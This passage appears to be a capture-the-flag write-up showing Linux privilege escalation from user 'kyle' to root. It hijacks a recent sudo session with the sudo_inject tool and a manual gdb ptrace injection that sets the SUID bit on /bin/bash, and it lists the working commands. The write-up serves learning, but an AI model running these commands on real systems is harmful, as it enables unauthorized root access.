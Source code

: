 ![image](https://user-images.githubusercontent.com/93153300/199278840-b50b900f-c1be-4f8e-a1e4-3ad014beb630.png)
 
Hacktricks shows what we need in order for this exploit to work.  Let’s check and see if we have what is needed to use this exploit.  We have shell as kyle, so that fulfills the first requirement.  The second requires we have used sudo in the last 15 minutes.  As we mentioned above, linpeas showed that kyle has a sudo process running, so we have the second requirement.  Linpeas showed us that ptrace protection is 0, so we have the third requirement.  However, we do not have gdb.  We can’t install gdb with apt install because we need sudo for that.   But we can install gdb with dpkg.  Download gdb from http://old-releases.ubuntu.com/ubuntu/pool/universe/g/gdb/ (I chose gdb-multiarch_9.1-0ubuntu1_amd64.deb).  Upload downloaded gdb to the target.  Install gdb uploaded to the target with command: dpkg -x  gdb-multiarch_9.1-0ubuntu1_amd64.deb gdbfile. \
Set the path: export PATH=$PATH:/home/kyle/gdbfile/usr/bin.  Go to /home/kyle/gdbfile/usr/bin and change the name to gdb: mv gdb-multiarch gdb.\
Next, download the github sudo_inject that hacktricks showed above: git clone https://github.com/nongiach/sudo_inject.git.   Go to the ‘extra tools’ directory in sudo_inject and run command make.  Upload  the sudo_inject directory to the target.   \
Run exploit.sh_v2.sh: bash exploit_v2.sh → creates a suid sh shell in /tmp  \
Run command: /tmp/sh -p \
Got shell as root

![image](https://user-images.githubusercontent.com/93153300/199278893-910dce3e-c715-465f-8073-a437ece36aa0.png)
  
Understanding how the exploit works and manual exploitation: \
What this exploit does is actually pretty simple.  Gdb connects to the process id that is running the sudo command.  Once gdb connects to the process that is running sudo, we can execute commands from gdb with sudo.  \
To exploit manually, these are the commands: \
ps aux| grep kyle    → found process id 1145 for the process running sudo \
gdb -q -n -p 1145 \
call system("echo | sudo -S chmod +s /bin/bash 2>&1") \
/bin/bash -p \
We have shell as root
